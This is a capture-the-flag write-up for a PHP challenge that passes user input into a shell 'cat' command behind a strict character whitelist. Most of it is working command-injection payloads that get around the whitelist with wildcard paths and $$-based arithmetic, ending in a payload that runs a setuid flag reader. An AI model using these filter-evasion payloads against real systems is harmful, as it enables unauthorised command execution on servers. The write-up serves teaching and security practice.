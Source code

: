 # Shero

We are greeted with a page that looks like this:

```php
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>
```

The preg_match statement forces entries with only the following characters: `. c a t ! ? / | - [ ] ( ) $`, as well as space. This doesn't give us much to work with, but with the letters (cat), we can try to run a couple of different commands. 

We must first close the cat command with the pipe character, before using wildcards to denote some other command. We can first try to run "ls"
```f=c|/???/??```
However, this won't work as there are too many variants that match with the `/???/??` wildcard. This can be confirmed when we run `ls /???/??` on a local linux machine and examine the output. However, there are a few different ways that can be used to list directories with minimal arguments:
- dir
- echo *
- stat <filename>

dir is also too generic and short, we don't have asterisk for echo, but stat can be matched, as confirmed with `ls /???/?tat`

Stat does not "list" the directory in a standard way, it just displays file information for a specific file... or wildcard. Thus to match a file, we just have to keep adding wildcards to the directory that we want to list (in this case, /):
```
  a | /???/???/?tat /?
  a | /???/???/?tat /??
  a | /???/???/?tat /???
  a | /???/???/?tat /????
  a | /???/???/?tat /?????
  a | /???/???/?tat /??????
  a | /???/???/?tat /???????
  a | /???/???/?tat /????????
```
  
The last one gives us something interesting:
```
  File: /flag.txt
  Size: 46        	Blocks: 8          IO Block: 4096   regular file
Device: 5dh/93d	Inode: 1053692     Links: 1
Access: (0400/-r--------)  Uid: ( 1000/     pwn)   Gid: ( 1000/     pwn)
Access: 2022-06-05 16:04:12.797132099 +0000
Modify: 2022-06-04 10:16:04.000000000 +0000
Change: 2022-06-05 16:04:12.649121900 +0000
 Birth: 2022-06-05 16:04:12.645121625 +0000
  File: /readflag
  Size: 16864     	Blocks: 40         IO Block: 4096   regular file
Device: 5dh/93d	Inode: 1053653     Links: 1
Access: (4755/-rwsr-xr-x)  Uid: ( 1000/     pwn)   Gid: ( 1000/     pwn)
Access: 2022-06-05 16:04:12.797132099 +0000
Modify: 2022-06-05 16:03:50.131570395 +0000
Change: 2022-06-05 16:04:12.117085242 +0000
 Birth: 2022-06-05 16:04:12.117085242 +0000
```

A simple cat to /??a?.t?t doesn't work, so we likely have to execute /readflag in order to get the flag. We can first try to download the binary to confirm what needs to be executed:
```bash
wget "http://challs.nusgreyhats.org:12325/?f=/??a???a?"
```

Disassembling the file in IDA gives us the following disassembly:
```
v16 = "P4s5_w0Rd";
s1 = aP4s5W0rd[2];
v5 = aP4s5W0rd[7];
v6 = aP4s5W0rd[0];
v7 = aP4s5W0rd[8];
v8 = aP4s5W0rd[1];
v9 = aP4s5W0rd[3];
v10 = aP4s5W0rd[5];
v11 = aP4s5W0rd[4];
v12 = aP4s5W0rd[6];
v13 = 0;
if ( argc > 1 )
{
  if ( !strcmp(&s1, argv[1]) )
  {
    stream = fopen("/flag.txt", "r");
    if ( stream )
    {
      fgets(&s, 64, stream);
      puts(&s);
      fclose(stream);
      result = 0;
    }
  ...
``` 
To get the flag, we must execute readflag with the right password: `sRPd45w_0`. This is the method that we came up with:
1. Strings the readflag binary and grep it to get P4s5_w0Rd
2. cut the string output to get sRPd45w_0
3. Execute readflag with $() of the above output to get the flag

## Strings the readflag binary and grep it to get P4s5_w0Rd

Strings is fairly straightforward, we can just do `a | /???/???/?t????? /??a???a?`
However, we don't have easy access grep. Instead, we used **/etc/alternatives/nawk** like so:
```
strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/
```
When converted to the acceptable format, we still need the numbers 5 and 4. This can be achieved with a bash numerical expression `$(($$/$$))`.

$$ in bash will return the current PID. By dividing it by itself, we can get 1, and thus make any number by using minus twice:
```
1 is $(($$/$$))
2 is $(($$/$$--$$/$$))
and so on
``` 
Thus, after fully converting the above strings and nawk payload, we get something like this to extract P4s5_w0Rd from readflag:
```
c | /???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/
```

## Cut the string to get sRPd45w_0

In order to get the right mutated password, we used the cut command to give us one character at a time:
```
/usr/bin/cut -c 3
/???/???/c?t -c $(($$/$$--$$/$$--$$/$$))
```

When chained with the full payload above, it gives us this:
```
strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 3
```
When encoded, it looks like this delightful ray of sunshine:
```
at | /???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$--$$/$$))
```

Can you guess what's next?

## Execute readflag with $() of the above output to get the flag

This. This is what's next.
```
/readflag $(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 3)$(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 8)$(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 1)$(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 9)$(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 2)$(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 4)$(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 6)$(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 5)$(strings /readflag | /etc/alternatives/nawk /5/ | /etc/alternatives/nawk /4/ | cut -c 7)
```

When slowly and painfully converted, this is the answer:
```
at | /??a???a? $(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$--$$/$$)))$(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$)))$(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$)))$(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$)))$(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$)))$(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$--$$/$$--$$/$$)))$(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$)))$(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$)))$(/???/???/?t????? /??a???a? | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$))/ | /???/a?????at????/?a?? /$(($$/$$--$$/$$--$$/$$--$$/$$))/ | /???/???/c?t -c $(($$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$--$$/$$)))
```
